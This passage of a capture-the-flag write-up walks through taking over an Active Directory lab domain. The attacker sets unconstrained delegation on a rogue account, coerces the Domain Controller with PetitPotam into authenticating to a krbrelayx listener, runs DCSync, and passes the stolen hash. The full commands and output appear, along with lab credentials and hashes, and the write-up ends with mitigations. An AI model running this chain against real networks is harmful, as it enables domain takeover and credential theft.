kali@kali$ bloodyAD --host 10.129.234.69 -u N.Thompson -p KALEB_2341 -d delegate.vl add uac evil$ -f TRUSTED_FOR_DELEGATION

[+] ['TRUSTED_FOR_DELEGATION'] property flags added to evil$'s userAccountControl
```

Legitimately, unconstrained delegation lets a service impersonate any user who authenticates to it by caching their TGT — historically used by front-end services that need to act against a back-end database as the original caller. Its abuse potential is well documented: whoever controls a host trusted for unconstrained delegation can potentially harvest the TGTs of anything that authenticates to it, including — as here — the Domain Controller's own machine account.

I then use the `CREATE_CHILD` DNS rights identified earlier to give `evil$` a resolvable hostname pointing at my attacking box, using `dnstool.py`:

```shell
kali@kali$ python3 dnstool.py -u 'delegate.vl\N.Thompson' -p KALEB_2341 -r evil.delegate.vl -a add -t A -d 10.10.14.95 -dns-ip 10.129.234.69 DC1.delegate.vl

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

`-a add -t A` writes a plain A record for `evil.delegate.vl` resolving to `10.10.14.95`, my attacker IP — this is what lets the eventual coercion target resolve back to my listener instead of somewhere inert.

---

## Coercion & Ticket Capture (PetitPotam + krbrelayx)

To operate as `evil$` at the protocol level, I convert its password to an NTLM hash:

```shell
kali@kali$ python3 << EOF
import hashlib
password = "P@\$\$word123!"
ntlm_hash = hashlib.new('md4', password.encode('utf-16le')).hexdigest()
print(f"NTLM Hash: {ntlm_hash}")
EOF

NTLM Hash: e606ba0be45573509f873c0a6f79e7ec
```

I stand up a rogue listener with krbrelayx. Because `evil$` is trusted for unconstrained delegation and now resolvable via the DNS record just added, any machine that authenticates to `evil.delegate.vl` will have its Kerberos TGT captured and cached locally:

```shell
kali@kali$ python3 krbrelayx.py -hashes :e606ba0be45573509f873c0a6f79e7ec
```

I then coerce the Domain Controller into authenticating outbound using PetitPotam, which abuses the `MS-EFSRPC` interface to force an SMB authentication attempt toward an arbitrary host, even though that interface was never intended as a remote-auth trigger:

```shell
kali@kali$ python3 PetitPotam.py -u 'evil$' -p 'P@$$word123!' -d delegate.vl -dc-ip 10.129.234.69 evil.delegate.vl 10.129.234.69

[*] Trying pipe lsarpc
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[+] Attack worked!
```



Because `evil$` is trusted for unconstrained delegation, the DC's outbound authentication attempt hands over its own machine TGT to the krbrelayx listener — not just an NTLM hash, but a full Kerberos ticket for `DC1$`.

---

## DCSync & Domain Compromise

The listener writes the captured ticket to disk as a `.ccache` file:

```shell
kali@kali$ ls -la *.ccache
DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

I load it into the current session and use it directly, without ever needing a password for `DC1$`:

```shell
kali@kali$ export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

`DC1$` is the Domain Controller's own machine account, which by definition holds Replicating Directory Changes rights, since it needs them to legitimately replicate the directory with other DCs. Holding a valid TGT for it is therefore enough to run a DCSync attack as if I were a peer Domain Controller:

```shell
kali@kali$ impacket-secretsdump -k -no-pass DC1.delegate.vl

Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::
```

I authenticate as Administrator via pass-the-hash and grab the root flag directly:

```shell
kali@kali$ evil-winrm -i 10.129.234.69 -u Administrator -H c32198ceab4cc695e65045562aa3ee93

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
```



```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/13/2026  11:35 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
c4e3f19dc49da9002e74c832d4b188ac
```

The user flag sits on `N.Thompson`'s desktop, confirmed earlier during the WinRM foothold:

```shell
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> cd ~
*Evil-WinRM* PS C:\Users\N.Thompson> cd Desktop
*Evil-WinRM* PS C:\Users\N.Thompson\Desktop> ls

    Directory: C:\Users\N.Thompson\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         7/13/2026  11:35 AM             34 user.txt
```

Full domain compromise achieved.

---

## Final Results



| Flag | Status |
|:--|:--|
| **User Flag** (N.Thompson) | ✅ Captured |
| **Root Flag** (Administrator) | `c4e3f19dc49da9002e74c832d4b188ac` |

```
Guest RID Brute Force → Full User/Group List (incl. "delegation admins")
   → NETLOGON users.bat → A.Briggs credential
   → LDAP Enumeration → bloodyAD get writable → WRITE on N.Thompson + DNS CREATE_CHILD
   → Targeted Kerberoasting → N.Thompson cracked (hashcat, 4s) → WinRM foothold
   → Rogue evil$ Machine Account → DNS Record (evil.delegate.vl) → Unconstrained Delegation
   → PetitPotam Coercion → krbrelayx TGT Capture (DC1$)
   → DCSync → NTDS Hash Dump → Pass-the-Hash → Domain Administrator
```

---

## Lessons Learned

This machine is a compact demonstration of how anonymous enumeration, a single leaked credential, an overlooked write permission, and a legacy delegation setting compound into full domain compromise, without a single memory-safety bug or unpatched CVE involved:

* Anonymous RID brute forcing alone was enough to map the entire user/group namespace, including a suspiciously named `delegation admins` group that telegraphed the vulnerability class before any credential was even found.
* Credentials in logon scripts remain a live issue even in modern AD builds (Server 2022 here) — anonymous NETLOGON access is enough to end the engagement before it starts.
* A single `WRITE`/`GenericWrite`-equivalent ACE is fully sufficient for targeted Kerberoasting; it doesn't need to be `GenericAll` or `WriteDacl` to be dangerous.
* Unconstrained delegation on any machine account, not just servers, is functionally equivalent to a live credential-harvesting trap for anything that authenticates to it — including the Domain Controller itself once coerced.

## Mitigations & Security Recommendations

1. **Restrict Anonymous SID/Name Translation**: Disable RID brute forcing and null-session enumeration (`RestrictAnonymous`/`RestrictNullSessAccess`), which handed over the entire user and group namespace for free.
2. **Remove Credentials from NETLOGON/SYSVOL Scripts**: Never embed plaintext credentials in logon scripts; use Group Policy Preferences with proper credential vaulting, or avoid scripted credentials entirely.
3. **Audit and Restrict Write-Type ACEs**: Regularly review AD object permissions (`bloodyAD get writable`, BloodHound, or equivalent) and remove unnecessary write rights over user objects and DNS zones.
4. **Rename or Remove Suggestive Group Names**: A group named `delegation admins` with a description like *"Group to allow delegation in the domain"* effectively documents the attack path for anyone who finds it.
5. **Enforce Strong Password Policy**: Weak passwords made both the logon-script credential and the cracked Kerberoast hash trivial; enforce length, complexity, and breached-password checks domain-wide.
6. **Reduce Machine Account Quota**: Set `ms-DS-MachineAccountQuota` to 0 for non-admin users where self-service domain joining isn't required, preventing rogue computer account creation outright.
7. **Eliminate Unconstrained Delegation**: Replace unconstrained delegation with constrained delegation or Resource-Based Constrained Delegation (RBCD), and audit any computer objects still flagged `TRUSTED_FOR_DELEGATION`.
8. **Mitigate Coercion Techniques**: Disable EFSRPC where unneeded, enable SMB signing and Extended Protection for Authentication (EPA), and apply Microsoft's guidance against PetitPotam-style coercion.
9. **Monitor for DCSync Activity**: Alert on Replicating Directory Changes requests issued by any principal other than a legitimate Domain Controller.
